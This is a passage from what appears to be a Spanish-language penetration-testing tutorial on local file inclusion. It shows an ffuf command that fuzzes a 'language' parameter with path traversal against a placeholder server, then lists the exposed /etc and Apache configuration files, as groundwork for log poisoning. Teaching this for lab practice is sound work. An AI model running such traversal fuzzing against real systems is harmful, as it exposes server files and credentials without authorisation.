 ### Server Logs/Configurations

Como vimos en la sección anterior, necesitamos ser capaces de identificar el directorio de logs correcto para poder realizar los ataques de envenenamiento de logs que discutimos. Además, como acabamos de discutir, también puede ser necesario leer las configuraciones del servidor para poder identificar la ruta del webroot del servidor y otra información importante (¡como la ruta de los logs!).

Para hacerlo, también podemos usar la [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt) wordlist, ya que contiene muchas de las rutas de logs y configuraciones del servidor que pueden interesarnos. Si quisiéramos un escaneo más preciso, podemos usar esta [wordlist para Linux](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux) o esta [wordlist para Windows](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows), aunque no son parte de `seclists`, por lo que necesitamos descargarlas primero. Probemos la wordlist de Linux contra nuestra vulnerabilidad LFI y veamos qué obtenemos:

```r
ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287

...SNIP...

 :: Method           : GET
 :: URL              : http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ
 :: Wordlist         : FUZZ: ./LFI-WordList-Linux
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 2287
________________________________________________

/etc/hosts              [Status: 200, Size: 2461, Words: 636, Lines: 72]
/etc/hostname           [Status: 200, Size: 2300, Words: 634, Lines: 66]
/etc/login.defs         [Status: 200, Size: 12837, Words: 2271, Lines: 406]
/etc/fstab              [Status: 200, Size: 2324, Words: 639, Lines: 66]
/etc/apache2/apache2.conf [Status: 200, Size: 9511, Words: 1575, Lines: 292]
/etc/issue.net          [Status: 200, Size: 2306, Words: 636, Lines: 66]
...SNIP...
/etc/apache2/mods-enabled/status.conf [Status: 200, Size: 3036, Words: 715, Lines: 94]
/etc/apache2/mods-enabled/alias.conf [Status: 200, Size: 3130, Words: 748, Lines: 89]
/etc/apache2/envvars    [Status: 200, Size: 4069, Words: 823, Lines: 112]
/etc/adduser.conf       [Status: 200, Size: 5315, Words: 1035, Lines: 153]
```

Como podemos ver, el escaneo devolvió más de 60 resultados, muchos de los cuales no fueron identificados con la [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt) wordlist, lo que nos muestra que un escaneo preciso es importante en ciertos casos. Ahora, podemos intentar leer cualquiera de estos archivos para ver si podemos obtener su contenido. Leeremos (`/etc/apache2/apache2.conf`), ya que es una ruta conocida para la configuración del servidor apache:

